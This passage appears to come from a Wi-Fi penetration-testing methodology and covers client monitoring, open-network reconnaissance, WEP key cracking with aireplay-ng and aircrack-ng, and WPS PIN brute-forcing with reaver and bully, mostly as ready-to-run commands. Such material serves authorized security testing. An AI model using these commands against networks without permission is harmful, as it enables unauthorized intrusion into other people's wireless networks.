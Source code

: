 #### 2.2 Client Device Analysis

```bash
# Monitor client activity
sudo airodump-ng -c [CHANNEL] --bssid [AP_MAC] wlan0mon

# Identify device types
# Look for:
- Manufacturer in MAC address
- Connection patterns
- Probe requests
- Data transmission volumes
```

### Phase 3: Vulnerability Assessment

#### 3.1 Open Network Testing

```bash
# Connect to open networks
sudo nmcli dev wifi connect "OpenNetwork"

# Network reconnaissance
nmap -sn $(route -n | grep wlan0 | head -1 | awk '{print $1}')
arp-scan --local --interface=wlan0

# Service enumeration
nmap -sS -O -sV -T4 [TARGET_IPS]

# Web application testing on captive portals
# Check for bypass techniques
# SSL/TLS configuration analysis
```

#### 3.2 WEP Network Assessment

```bash
# Target WEP networks
sudo airodump-ng -c [CHANNEL] --bssid [WEP_AP_MAC] -w wep_attack wlan0mon

# Generate traffic if needed
sudo aireplay-ng -1 0 -a [WEP_AP_MAC] wlan0mon
sudo aireplay-ng -3 -b [WEP_AP_MAC] wlan0mon

# Monitor packet collection
# Target: 20,000+ packets for reliable crack

# Attempt crack
sudo aircrack-ng wep_attack-01.cap
```

#### 3.3 WPS Vulnerability Testing

```bash
# Scan for WPS-enabled networks
wash -i wlan0mon

# Test WPS PIN vulnerability
sudo reaver -i wlan0mon -b [TARGET_MAC] -vv -d 60 -x 60

# Alternative tools
sudo bully -b [TARGET_MAC] -c [CHANNEL] wlan0mon

# Document results
- PIN found: [TIME_TO_CRACK]
- Lockout behavior observed
```